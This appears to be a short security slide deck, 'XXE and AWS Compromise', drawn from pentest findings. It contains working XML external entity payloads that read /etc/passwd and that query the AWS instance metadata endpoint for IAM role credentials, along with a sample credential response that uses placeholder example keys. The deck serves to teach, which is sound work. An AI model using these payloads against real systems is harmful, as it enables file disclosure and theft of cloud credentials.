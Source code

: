 # XXE and AWS Compromise

---

## @fa[book](Background)
![diagram](xxe-aws-compromise/assets/diagram1.png)

---

## @fa[code](XML Entities)
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>

<foo>&xxe;</foo>
```

---

## @fa[file-signature](Pentest Report)
![diagram](xxe-aws-compromise/assets/vuln1.png)

---

## @fab[aws](AWS Metadata)
```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-iam-role" >
]>

<foo>&xxe;</foo>
```

`http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-iam-role`

---

## @fa[file-signature](Pentest Report)
![diagram](xxe-aws-compromise/assets/vuln2.png)

---

## @fa[terminal](Metadata)
```json
{
  "Code" : "Success",
  "LastUpdated" : "2019-07-01T12:11:43Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "AKIAIOSFODNN7EXAMPLE",
  "SecretAccessKey" : "wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY",
  "Token" : "************",
  "Expiration" : "2019-07-01T18:46:08Z"
}
```

---

## @fa[file-signature](Pentest Report)
![diagram](xxe-aws-compromise/assets/vuln3.png)

---

## @fa[book](Summary)
![stop it](https://media.giphy.com/media/l4Ki2obCyAQS5WhFe/giphy.gif)

